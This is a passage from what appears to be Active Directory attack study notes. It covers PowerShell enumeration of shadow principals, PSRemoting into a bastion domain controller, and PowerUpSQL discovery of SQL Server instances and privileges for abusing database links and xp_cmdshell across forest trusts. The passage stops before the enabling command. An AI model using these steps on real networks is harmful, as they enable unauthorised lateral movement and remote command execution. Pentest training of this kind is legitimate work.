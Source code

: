 ```powershell
Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc

# 4. Establish a direct PSRemoting session on bastion-dc and access production.local
Enter-PSSession 192.168.X.Y -Authentication NegotiateWithImplicitCredential
```

# X. Trust Abuse

### MSSQL Abuse - Forest Trusts

```powershell
# https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.psd1
Import-Module .\PowerUpSQL.psd1
```

##### Methodology/Steps

>   1.  Check the SPN's and check which SPN's you have access to
>   3.  Check the Privileges you have of the filtered SPN's
>   4.  Keep note of the **Instance-Name**, **ServicePrincipalName** and the **DomainAccount-Name**
>   5.  If you find any service with *higher privileges* continue below to abuse it

------

##### PowerUpSQL [ Basic Enumeration ]

```powershell
# 1. Enumerate SPN
Get-SQLInstanceDomain

# 2. Check Access
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# 3. Check Privileges / Gather Information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### MSSQL Abuse - MSSQL Database Links

-   A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.
-    In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.
-   Database links work even across forest trusts.

##### Execute commands on target server

-   On the target server, either `xp_cmdshell` should be already enabled; or
-   If **rpcout** is enabled (disabled by default), `xp_cmdshell` can be enabled using:

